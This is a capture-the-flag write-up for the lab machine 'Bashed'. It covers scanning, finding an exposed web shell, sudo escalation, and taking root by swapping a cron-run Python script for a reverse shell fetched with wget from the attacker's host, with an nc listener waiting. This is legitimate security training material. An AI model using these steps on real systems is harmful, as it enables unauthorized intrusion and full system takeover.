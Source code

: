 # Bashed

This is the write-up for the machine Bashed.

## Scanning & Enumeration

Let's start with an nmap scan:

```markdown
nmap -T4 -A -p- 10.10.10.68
```

Relevant results of the scan:

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## HTTP

The HTTP port is open and a web page contains information about a tool called **phpbash**.
We can do directory busting to find the subdirectories of the web blog using **Gobuster**:

```markdown
gobuster -u http://10.10.10.68 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Gobuster** finds an _/uploads_, _/php_, and _/dev_ subdirectories that are relevant to us.
The _/dev_ directory is the tool **phpbash.php** it starts a web shell in the browser.
We can use this to create a reverse shell on our machine. 

## Privilege Escalation from web shell to scriptmanager

Switch to user **www-data** and run the following command:

```markdown
sudo -l
```

Results of **sudo -l**:

```markdown
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

We see that we can run commands as user **scriptmanager** without a password.

We can start a bash shell as the user **scriptmanager**:

```markdown
sudo -u scriptmanager bash
```

We are now **scriptmanager** on the machine.

## Privilege Escalation to root

We can look at the directories owned by the user **scriptmanager**, there is a directory _/scripts_ at the root path, which is unusual for a linux machine:

```markdown
find / -type d -group scriptmanager -user scriptmanager 2>/dev/null
```

In the _/scripts_ there are two files with the following permissions and content:

```markdown
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Feb  5 11:23 test.txt
```

Contents of the file after running cat:

```markdown
cat test.txt

#Output
testing 123!
```

```markdown
cat test.py

#Output:
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

We can see that the Python script _test.py_ writes a string "testing123!" into the text file _test.txt_ which refreshes its date every minute.
It is most likely a scheduled task/cron job.

The Python script file belongs to **scriptmanager** and we can write to it and the text file is owned by root. Therefore we can exploit this by modifying the script to execute a reverse shell.
[pentestmonkey](http://www.pentestmonkey.net) has a python reverse shell script snippet that can be found [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Change the IP and port number to your machine's IP and desired port number (2345 in my case) in the script. You can also change the _p=subprocess.call(["/bin/sh","-i"])_ to use an interactive bash shell 
instead like _p=subprocess.call(["/bin/bash","-i"])_.
Save the script on your machine to a directory of your choice and execute the following command to start an HTTP server on your machine:

```markdown
python -m SimpleHTTPServer 9001 //Or any port that is open on your machine
```
Start another tab on the terminal on your machine and type the following command to set up a listener:

```markdown
nc -nvlp 2345 //Or any port that is open on your machine
```

Type the following commands on Bashed as **scriptmanager**:

```markdown
rm test.py
wget http://<your_ip>/<directory_to_test.py_on_your_machine>/test.py
```
We can wait for one minute and we will see that the script gets executed and the listener on our IP and our desired port (2345 in my case) starts a session as root.
